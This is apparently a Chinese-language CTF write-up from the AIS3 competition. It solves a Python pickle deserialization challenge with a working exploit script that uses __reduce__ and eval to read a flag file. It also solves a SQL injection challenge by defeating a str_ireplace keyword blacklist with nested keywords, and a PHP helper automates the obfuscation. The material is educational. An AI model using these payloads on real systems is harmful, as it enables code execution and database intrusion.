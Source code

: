 * 細節我沒有研究，在賽中翻到一篇投影片讓我解出這題
	* [Security Issues in Python Pickle](https://hackmd.io/@2KUYNtTcQ7WRyTsBT7oePg/BycZwjKNX#/)
	* 這題沒有過濾任何字元，所以可以用最簡單的 exp 過

```python
import requests, base64, pickle
class aaa:
    def __reduce__(self):
        return (eval, ("open('/flag').read()",))

obj = aaa()
print(base64.b64encode(pickle.dumps(obj)))
s = base64.b64encode(pickle.dumps(obj))

r = requests.get('https://snake.ais3.org/?data={}'.format(s.decode('utf-8')))
print(r.text)
# AIS3{7h3_5n4k3_w1ll_4lw4y5_b173_b4ck.}
```

### Owl

![](https://i.imgur.com/3CGKKPC.png)

題目有個登入框，上頭有個小字寫要猜密碼，`admin/admin` 可以登入

![](https://i.imgur.com/QiMqSaA.png)

登入後看HTML 原始碼，發現它送你 php 原始碼，在 `/?source`
[完整原始碼](https://pastebin.com/Njhux46u)
看到 sql 就知道這題是 SQLi ㄌ

![](https://i.imgur.com/VERg9Sw.png)

看到 login 的邏輯部分，發現它用黑名單過濾，並且只用 `str_ireplace` 來取代兩遍字串
這種字串取代的過濾方法總是有方法可以 bypass，這裡的解法是：把 replace 的字插在原本字串的中間，過濾幾次就插幾次

* 例如 `selselselectectect` -> `select`
	* 第一次`str_ireplace()`：
		* `selsel[select]ectect` = `selselectect`
	* 第二次`str_ireplace()`：
		* `sel[select]ect` = `select`

可以寫個簡單的腳本自動轉換，方便寫 exp

```php
<?php
$inj = 'payload';
$username = "' or 1=1 union select 1,2,3 limit 0,1///***";

$username = str_ireplace('union', "unununionionion", $username);
$username = str_ireplace('or', "ooorrr", $username);
$username = str_ireplace('select', "selselselectectect", $username);
$username = str_ireplace('where', "whewhewhererere", $username);
$username = str_ireplace('from', "frfrfromomom", $username);
$username = str_ireplace(' ', "///******///", $username);
$username = str_ireplace('--', "-//**-", $username);

echo $username;
$bad = [' ', '/*', '*/', 'select', 'union', 'or', 'and', 'where', 'from', '--'];
$username = str_ireplace($bad, '', $username);
$username = str_ireplace($bad, '', $username);
echo "\r\n";
echo "\r\n";
echo $username;
echo "\r\n";
?>
```